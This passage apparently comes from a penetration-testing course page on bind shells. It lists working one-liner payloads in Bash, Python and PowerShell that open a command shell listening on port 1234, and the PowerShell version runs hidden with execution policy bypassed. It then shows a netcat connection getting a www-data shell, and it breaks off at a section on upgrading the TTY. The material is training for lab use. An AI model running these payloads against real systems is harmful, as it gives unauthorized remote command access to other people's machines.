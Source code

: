 Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

Bash:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i2>&1|nc -lvp 1234 >/tmp/f

```

Python:

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

```

Powershell:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

**Netcat Connection**

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

Types of Shells

```
th1nyunb0y@htb[/htb]$ nc 10.10.10.1 1234id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

**Upgrading TTY**

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

